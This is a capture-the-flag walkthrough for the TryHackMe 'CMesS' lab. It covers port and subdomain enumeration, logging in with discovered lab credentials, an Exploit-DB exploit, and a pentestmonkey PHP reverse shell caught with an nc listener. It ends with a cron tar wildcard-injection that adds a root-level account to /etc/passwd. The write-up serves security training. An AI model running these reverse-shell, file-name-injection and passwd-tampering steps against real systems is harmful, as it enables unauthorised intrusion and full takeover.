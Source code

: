 # CMesS

**Room Link**: [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://cmess.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



Mostly junk

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>



## Fuzzing Domains

Fuzzed with a long subdomain list then filtered to reduce the amount of results. Only one stands out, dev.&#x20;

**Kali**

```
wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://cmess.thm/' -H "Host: FUZZ.cmess.thm" > results.txt

grep -v '290 W' results.txt
```

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

I added dev.cmess.thm to my host file and found this page

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to login to the admin portal with these credentials

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (7).png" alt=""><figcaption></figcaption></figure>

```
Username: andre@cmess.thm
Password: KPFTN_f2yxe%
```

## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/51569](https://www.exploit-db.com/raw/51569)



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The shell they use is bad so I upload a new one to get a reverse shell instead

**Shell Link:** [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



We find andre's password in a backup file

**Victim**

```
cd /opt
ls -lah
cat .password.bak 
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/21 - SSH

**Kali**

```
ssh andre@$VICTIM
Password: UQfsdCB7aAP6
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privlege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /home/andre/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch './--checkpoint-action=exec=sh shell.sh'
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



